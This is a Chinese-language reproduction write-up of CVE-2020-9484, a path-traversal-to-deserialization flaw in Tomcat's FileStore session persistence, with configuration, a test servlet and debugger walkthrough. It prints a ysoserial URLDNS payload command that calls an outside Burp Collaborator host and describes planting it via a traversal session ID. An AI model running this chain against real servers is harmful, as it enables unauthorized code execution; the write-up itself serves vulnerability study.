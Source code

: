 （CVE-2020-9484）Tomcat session反序列化漏洞
===========================================

一、漏洞简介
------------

对
于一个企业级应用而言，Session对象的管理十分重要。Sessio对象的信息一般情况下置于服务器的内存中，当服务器由于故障重启，或应用重新加载
时候，此时的Session信息将全部丢失。为了避免这样的情况，在某些场合可以将服务器的Session数据存放在文件系统或数据库中，这样的操作称为
Session对象的持久化。Session对象在持久化时，存放在其中的对象以序列化的形式存放，这就是为什么一般存放在Session中的数据需要实
现可序列化接口（java.io.Serializable）的原因了。当一个Session开始时，Servlet容器会为Session创建一个HttpSession对象。Servlet容器在某些情况下把这些
HttpSession对象从内存中转移到文件系统或数据库中，在需要访问
HttpSession信息时再把它们加载到内存中。

### 实现

要完成session持久化，存放在session里的对象必须要实现`java.io.Serializable`
接口。Session的持久化是由`Session Manager`来管理的。Tomcat提供了两个实现类：

-   **org.apache.catalina.session.StandardManager** (默认)
-   **org.apache.catalina.session.PersistentManager**

### 配置

存储在本地文件中需要配置conf目录里的**context.xml**文件在`节点下添加如下`节点：

    <Manager className="org.apache.catalina.session.PersistentManager" 
        debug="0"
        saveOnRestart="false"
        maxActiveSession="-1"
        minIdleSwap="-1"
        maxIdleSwap="-1"
        maxIdleBackup="-1">
        <Store className="org.apache.catalina.session.FileStore" directory="../session" />
    </Manager>

二、漏洞影响
------------

Tomca \<= 9.0.34Tomca \<= 8.5.54Tomca \<= 7.0.103

三、复现过程
------------

### 漏洞分析

一般文件存储session的问题就是sessionID没有做过滤，允许跳出路径，让session文件变成攻击者控制的文件，导致漏洞产生，这次的session漏洞也不例外

我们选择了session的存储为FileStore，所以在FileStore类的load方法处设置断点

在servlet中创建一个很简单的java session

    protected void doGet(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {
            Properties properties = new Properties();
            properties.setProperty("org.apache.catalina.session.StandardSession.ACTIVITY_CHECK", "true");
            System.setProperties(properties);
            String res = System.getProperty("org.apache.catalina.session.StandardSession.ACTIVITY_CHECK");
            System.out.println(res);
            HttpSession httpSession = req.getSession();
            httpSession.setAttribute("username", "admin");
            resp.getWriter().println("success");
        }

现在我们的漏洞环境就搭建好了，设置tomcat启动即可

### 设置sessionid

我们设置sessionid存在目录穿越符号

![1.png](resource/(CVE-2020-9484)Tomcatsession反序列化漏洞/media/rId28.png)

刷新页面，被断点拦截

![2.png](resource/(CVE-2020-9484)Tomcatsession反序列化漏洞/media/rId29.png)

第一步先是获取到session文件

![3.png](resource/(CVE-2020-9484)Tomcatsession反序列化漏洞/media/rId30.png)

可以看到，我们的sessionID后面会添加一个.session后缀，这也就导致我们需要一个可控文件名的文件上传，这一点就比较难以满足

但是可以看出来，不需要准确知道确定的相对录路径，一直跳到根目录即可，但是因为sessionid有长度限制的，所以还是有一点限制

### 反序列化

这个时候，我们可以跳到任意目录了，我们在tmp下面生成了URLDNS的ysoserial，来做dns查询

    java -jar ysoserial.jar URLDNS "http://lsh9lo0bpipjrb0kp98cn4khb8h15q.burpcollaborator.net" > /tmp/test.session

![4.png](resource/(CVE-2020-9484)Tomcatsession反序列化漏洞/media/rId32.png)

只要这个session文件存在，就会将文件内容读取出来，并且创建ObjectInputStream，最后调用了readObjectData

熟悉java反序列化的话这个地方一眼就能看出来有反序列化的问题

我们继续进入readObjectData

![5.png](resource/(CVE-2020-9484)Tomcatsession反序列化漏洞/media/rId33.png)

调用readObject，触发反序列化

### 利用截图

使用URLDNS，成功获取到DNS请求

![6.png](resource/(CVE-2020-9484)Tomcatsession反序列化漏洞/media/rId35.png)

漏洞利用条件较为苛刻

参考链接
--------

> https://xz.aliyun.com/t/7803\#toc-1
